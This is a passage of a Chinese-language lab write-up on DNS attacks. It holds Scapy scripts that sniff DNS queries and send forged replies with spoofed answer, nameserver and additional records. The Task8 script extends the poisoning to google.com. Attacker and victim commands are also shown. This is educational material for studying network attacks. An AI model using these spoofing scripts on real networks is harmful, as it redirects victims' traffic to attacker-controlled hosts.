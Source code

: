 ``` py
        # The Additional Section
        Addsec1 = DNSRR(rrname='ns1.example.net', 
                        type='A', ttl=259200, rdata='1.2.3.7') 
        Addsec2 = DNSRR(rrname='ns2.example.net', 
                        type='A', ttl=259200, rdata='1.2.3.8')
        # 组装 DNS 报文
        DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, 
                    qr=1, qdcount=1, ancount=1, nscount=2, arcount=2, 
                    an=Anssec, ns=NSsec1/NSsec2, ar=Addsec1/Addsec2)
        # 组装整个 IP 包
        spoofpkt = IPpkt/UDPpkt/DNSpkt
        # 发
        send(spoofpkt)
# Sniff UDP query packets and invoke spoof_dns().
pkt = sniff(filter='udp and dst port 53', prn=spoof_dns)
```

攻击者:
``` sh
$ python3 Task7.py
```
受害者:
``` sh
$ dig www.example.net
```

## T8 Targeting Another Domain

添加其他域. 

*Task8.py*
``` py {4,19-22,29-31}
#!/usr/bin/python
from scapy.all import *
def spoof_dns(pkt):
    if (DNS in pkt and (b'example.net' in pkt[DNS].qd.qname or b'google.com' in pkt[DNS].qd.qname)):
        print("I am in")
        # 交换源 IP 和目的 IP
        IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)
        # 交换源端口和目的端口
        UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)

        # The Answer Section
        Anssec = DNSRR(rrname=pkt[DNS].qd.qname, 
                        type='A', ttl=259200, rdata='1.2.3.6')
        # The Authority Section
        NSsec1 = DNSRR(rrname='example.net', 
                        type='NS', ttl=259200, rdata='ns1.example.net') 
        NSsec2 = DNSRR(rrname='example.net', 
                        type='NS', ttl=259200, rdata='ns2.example.net')
        NSsec3 = DNSRR(rrname='google.com', 
                        type='NS', ttl=259200, rdata='ns1.example.net') 
        NSsec4 = DNSRR(rrname='google.com', 
                        type='NS', ttl=259200, rdata='ns2.example.net')
        # The Additional Section
        Addsec1 = DNSRR(rrname='ns1.example.net', 
                        type='A', ttl=259200, rdata='1.2.3.7') 
        Addsec2 = DNSRR(rrname='ns2.example.net', 
                        type='A', ttl=259200, rdata='1.2.3.8')
        # 组装 DNS 报文
        DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, 
                    qr=1, qdcount=1, ancount=1, nscount=4, arcount=2, 
                    an=Anssec, ns=NSsec1/NSsec2/NSsec3/NSsec4, ar=Addsec1/Addsec2)
        # 组装整个 IP 包
```